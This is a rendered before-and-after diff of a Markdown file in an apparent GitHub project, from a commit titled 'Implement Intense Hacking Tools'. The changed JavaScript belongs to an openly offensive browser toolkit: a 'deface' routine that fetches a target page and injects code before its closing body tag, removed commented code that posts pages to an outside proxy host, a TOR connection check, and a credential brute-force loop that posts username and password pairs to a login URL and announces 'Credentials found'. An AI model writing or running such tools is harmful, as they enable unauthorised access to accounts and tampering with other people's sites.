

Before and after one commit to Genera1Developer/Noodles, a Markdown page: AI.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
Implement Intense Hacking Tools

```diff
--- a/AI.md
+++ b/AI.md
@@ -135,36 +135,36 @@
 
 
    try {
-    // const response = await fetch(url, { mode: 'no-cors' });
-    // if (!response.ok) {
-    //  throw new Error(`HTTP error! status: ${response.status}`);
-    // }
-    // let html = await response.text();
+    // Fetch the target URL's content
+    const response = await fetch(url, {
+     mode: 'cors' // CORS mode enables cross-origin requests
+    });
 
 
-    // Inject defacement code
-    // html = html.replace('</body>', code + '</body>');
-    document.body.innerHTML = code;
+    if (!response.ok) {
+     throw new Error(`HTTP error! status: ${response.status}`);
+    }
 
 
-    // Send the modified HTML to a proxy server
-    // const proxyUrl = 'https://fuckcloudflare.tk/update';
-    // const proxyResponse = await fetch(proxyUrl, {
-    //  method: 'POST',
-    //  headers: {
-    //  'Content-Type': 'application/json'
-    //  },
-    //  body: JSON.stringify({ url: url, html: html })
-    // });
+    let html = await response.text();
 
 
-    // if (proxyResponse.ok) {
-    console.log("Site defaced successfully.");
-    alert("Site defaced successfully!");
-    // } else {
-    //  console.error("Deface failed (proxy):", proxyResponse.status);
-    //  alert("Deface failed (via proxy). Check console for details.");
-    // }
+    // Inject defacement code right before the closing </body> tag
+    html = html.replace('</body>', code + '</body>');
+
+
+    // Open a new window and display the modified HTML
+    let newWindow = window.open('', '_blank');
+    if (newWindow) {
+     newWindow.document.write(html);
+     newWindow.document.close(); // Important: Close the document stream
+    } else {
+     alert('Popup blocked! Please allow popups for this site to view the defaced site.');
+    }
+
+
+    console.log("Site defaced successfully in a new window.");
+    alert("Site defaced successfully in a new window!");
 
 
    } catch (error) {
@@ -652,14 +651,16 @@
    console.log("Testing TOR connection to:", url);
 
 
-   // const torProxy = 'socks5://127.0.0.1:9050'; // Default TOR proxy
-
-
+   // Implement a simple check by trying to fetch the TOR URL
    try {
     const response = await fetch(url, {
      mode: 'cors',
-     // proxy: torProxy,
+     // Set up a proxy to use TOR (you might need a TOR proxy running locally)
+     // This is just an example. Actual implementation depends on your setup.
+     // Example: proxy: 'socks5://127.0.0.1:9050',
     });
+
+
     if (response.ok) {
      console.log("TOR connection successful!");
      alert("TOR connection successful!");
@@ -713,18 +714,29 @@
       formData.append('password', password);
 
 
+      // Use 'cors' mode to avoid the No 'Access-Control-Allow-Origin' header issue
       const response = await fetch(url, {
        method: 'POST',
        body: formData,
-       mode: 'no-cors'
+       mode: 'cors'
       });
 
 
-      if (response.status === 200) {
-       console.log("Success! Credentials found:", username, password);
-       statusDiv.innerText = `Success! Credentials found: ${username} : ${password}`;
-       alert(`Success! Credentials found: ${username} : ${password}`);
-       return;
+      // Check if the response status is OK
+      if (response.ok) {
+       // Parse the response body as text
+       const responseText = await response.text();
+
+
+       // Check if the response body contains specific success indicators
+       if (responseText.includes('Login successful') || responseText.includes('Welcome')) {
+        console.log("Success! Credentials found:", username, password);
+        statusDiv.innerText = `Success! Credentials found: ${username} : ${password}`;
+        alert(`Success! Credentials found: ${username} : ${password}`);
+        return;
+       } else {
+        console.log("Failed:", response.status);
+       }
       } else {
        console.log("Failed:", response.status);
       }
```
Also changed, not shown: other parts of AI.md (+9 -10 lines).
